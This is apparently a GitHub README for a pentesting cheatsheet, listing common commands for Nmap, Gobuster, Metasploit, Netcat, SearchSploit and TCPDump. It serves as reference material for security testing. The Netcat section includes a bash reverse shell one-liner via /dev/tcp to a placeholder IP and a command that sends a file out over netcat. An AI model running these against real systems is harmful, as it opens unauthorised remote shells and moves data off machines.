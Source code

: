 # Penooo-Cheatsheet for Pentesting

A collection of **useful commands and scripts** for pentesting tools, organized by the specific tools used. This repository serves as a handy reference for commonly used tools and their commands, making your pentesting tasks faster and more efficient.

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Tool-Based Commands](#tool-based-commands)
  - [Nmap](#nmap)
  - [Gobuster](#gobuster)
  - [Metasploit](#metasploit)
  - [Netcat](#netcat)
  - [SearchSploit](#searchsploit)
  - [TCPDump](#tcpdump)
- [Contributing](#contributing)
- [License](#license)

---

## Features

- Comprehensive list of commands for various pentesting tools
- Pre-written scripts for automating common activities
- Beginner-friendly and updated with modern techniques

---

## Installation

Clone the repository to your local machine:

```bash
git clone https://github.com/<your-username>/cheatsheet-pentesting.git
```

Navigate to the directory:

```bash
cd cheatsheet-pentesting
```

---

## Usage

1. Browse through the tool categories to find relevant commands or scripts.
2. Use the provided commands directly in your terminal.
3. For scripts, make them executable if needed:

   ```bash
   chmod +x <script-name>.sh
   ./<script-name>.sh
   ```

4. Customize the scripts based on your specific target or environment.

---

## Tool-Based Commands

### Nmap
- **Basic Scan**:
  ```bash
  nmap -sV -A <target-IP>
  ```

- **Scan Specific Ports**:
  ```bash
  nmap -p 80,443 <target-IP>
  ```

- **OS Detection**:
  ```bash
  nmap -O <target-IP>
  ```

### Gobuster
- **Directory Enumeration**:
  ```bash
  gobuster dir -u http://<target> -w /path/to/wordlist.txt
  ```

- **DNS Subdomain Enumeration**:
  ```bash
  gobuster dns -d <target-domain> -w /path/to/wordlist.txt
  ```

### Metasploit
- **Start Metasploit Console**:
  ```bash
  msfconsole
  ```

- **Search for Exploits**:
  ```bash
  search <exploit-name>
  ```

- **Use an Exploit**:
  ```bash
  use <exploit-path>
  ```

### Netcat
- **Set Up a Listener**:
  ```bash
  nc -lvnp 4444
  ```

- **Send a File**:
  ```bash
  nc -w 3 <target-IP> 1234 < file.txt
  ```

- **Reverse Shell**:
  ```bash
  bash -i >& /dev/tcp/<your-IP>/4444 0>&1
  ```

### SearchSploit
- **Search for Exploits**:
  ```bash
  searchsploit <software-name>
  ```

- **Copy Exploit to Current Directory**:
  ```bash
  searchsploit -m <exploit-path>
  ```

### TCPDump
- **Capture Traffic on an Interface**:
  ```bash
  tcpdump -i <interface>
  ```

- **Write Capture to File**:
  ```bash
  tcpdump -i <interface> -w capture.pcap
  ```

- **Filter by Port**:
  ```bash
  tcpdump -i <interface> port 80
  ```

---

## Contributing

Contributions are welcome! If you have additional useful commands or scripts, feel free to create a pull request:

1. Fork this repository.
2. Create a new branch:
   ```bash
   git checkout -b feature/add-new-commands
   ```
3. Commit your changes:
   ```bash
   git commit -m "Add new commands for XYZ"
   ```
4. Push to your branch:
   ```bash
   git push origin feature/add-new-commands
   ```
5. Open a pull request on GitHub.

---

## License

This project is licensed under the [MIT License](LICENSE).
